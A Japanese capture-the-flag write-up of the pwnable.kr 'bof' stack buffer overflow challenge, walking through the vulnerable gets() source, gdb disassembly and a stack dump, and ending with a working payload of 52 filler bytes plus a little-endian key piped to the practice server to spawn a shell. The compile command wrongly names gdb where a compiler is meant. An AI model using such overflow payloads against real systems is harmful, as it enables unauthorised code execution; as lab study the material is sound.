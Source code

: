 # bof

つまり、 Buffer Overflow ですね。

## 動作確認

まずは実行してみましょう。

```
$ ./bof
overflow me :
AAAAAAAAAAAAAAAA  <-- とりあえず A(0x41) を入力
Nah..
```

`overflow me` と表示してヒントを出してくれています。


## 処理内容

bof.c の処理を確認してみましょう。

```c
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`func` 関数の中で、引数 `key` の値をチェックして判断しています。

この値が `0xcafebabe` であれば、shコマンドを操作できるようになるようです。

また、 `main` 関数からは `func` 関数に対して `0xdeadbeef` という値を渡しています。

ポイントは `// smash me!` というコメントのある行です。 `gets` はバッファオーバーフローの脆弱性があり、現在は使用してはいけない関数です。

その脆弱性を攻撃していきましょう。


## 解析

`bof` ファイルの中を覗いてみます。

```bash
$ gdb ./bof
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax        <== (1)
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp)   <== (2)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave
   0x00000689 <+93>:	ret
End of assembler dump.
```

(2) のステップで、引数 `key` の値をチェックしています。

その値は、(1) のステップで取得しています。

(1) では、%ebp (ベースポインタ) を -0x2c 遡ったところから取得しているので、 バッファは 0x2c (44バイト) あります。

44文字入力すると、バッファを埋められそうです。

次に、手元の環境でデバッグ(gdb)できるように、コンパイルしてみます。

```bash
$ gdb -m32 ./bof.c -o mybof
```

`mybof` という実行ファイルができますので、gdbコマンドでデバッグ実行します。

```bash
$ gdb ./mybof
(gdb) disas func
Dump of assembler code for function func:
   0x565561c9 <+0>:	push   %ebp
   0x565561ca <+1>:	mov    %esp,%ebp
   0x565561cc <+3>:	push   %ebx
   0x565561cd <+4>:	sub    $0x24,%esp
   0x565561d0 <+7>:	call   0x565560d0 <__x86.get_pc_thunk.bx>
   0x565561d5 <+12>:	add    $0x2e2b,%ebx
   0x565561db <+18>:	sub    $0xc,%esp
   0x565561de <+21>:	lea    -0x1ff8(%ebx),%eax
   0x565561e4 <+27>:	push   %eax
   0x565561e5 <+28>:	call   0x56556030 <printf@plt>
   0x565561ea <+33>:	add    $0x10,%esp
   0x565561ed <+36>:	sub    $0xc,%esp
   0x565561f0 <+39>:	lea    -0x28(%ebp),%eax
   0x565561f3 <+42>:	push   %eax
   0x565561f4 <+43>:	call   0x56556040 <gets@plt>
   0x565561f9 <+48>:	add    $0x10,%esp
   0x565561fc <+51>:	cmpl   $0xcafebabe,0x8(%ebp)  <== (3)
   0x56556203 <+58>:	jne    0x56556219 <func+80>
   0x56556205 <+60>:	sub    $0xc,%esp
   0x56556208 <+63>:	lea    -0x1fe9(%ebx),%eax
   0x5655620e <+69>:	push   %eax
   0x5655620f <+70>:	call   0x56556060 <system@plt>
   0x56556214 <+75>:	add    $0x10,%esp
   0x56556217 <+78>:	jmp    0x5655622b <func+98>
   0x56556219 <+80>:	sub    $0xc,%esp
   0x5655621c <+83>:	lea    -0x1fe1(%ebx),%eax
   0x56556222 <+89>:	push   %eax
   0x56556223 <+90>:	call   0x56556050 <puts@plt>
   0x56556228 <+95>:	add    $0x10,%esp
   0x5655622b <+98>:	nop
   0x5655622c <+99>:	mov    -0x4(%ebp),%ebx
   0x5655622f <+102>:	leave
   0x56556230 <+103>:	ret
End of assembler dump.
```

先程の `bof` の内容と異なっていますが、(3) のステップで値を判定していますので、ブレークポイントを設定してバッファの内容を確認してみます。

```bash
(gdb) b *0x565561fc
Breakpoint 1 at 0x565561fc
(gdb) r
Starting program: /usr/src/app/00_ToddlersBottle/02_bof/mybof
overflow me : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     <== 44文字の A (0x41) を入力

Breakpoint 1, 0x565561fc in func ()
(gdb) x/20xhw $esp
0xffffdcd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdce0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdcf0:	0x41414141	0x41414141	0x41414141	0x56556200  <== あと 8バイト でチェック対象のポインタに到達する
0xffffdd00:	0xdeadbeef	0xffffddc4	0xffffddcc	0x56556247  <== チェク対象（0xdeadbeef）
0xffffdd10:	0xf7fe4140	0xffffdd30	0x00000000	0xf7e01ef1
(gdb) q
```

ということで、 52文字 (44バイト + 8バイト) の後ろに `0xcafebabe` を差し込むとバッファオーバーフロー攻撃が成立します。


## Capture the Flag

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(bytes.fromhex("41"*52+"bebafeca"))';cat) | ncat -v pwnable.kr 9000
whoami
ls
cat flag
```


## Incidentally

0xcafebabe とそのまま渡すのではなく `bebafeca` と 2バイトずつ逆順にしているのは

実行ファイルの情報を見ると、リトルエンディアン(little endian) だからです。

```bash
$ readelf -h ./bof
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  ...
```
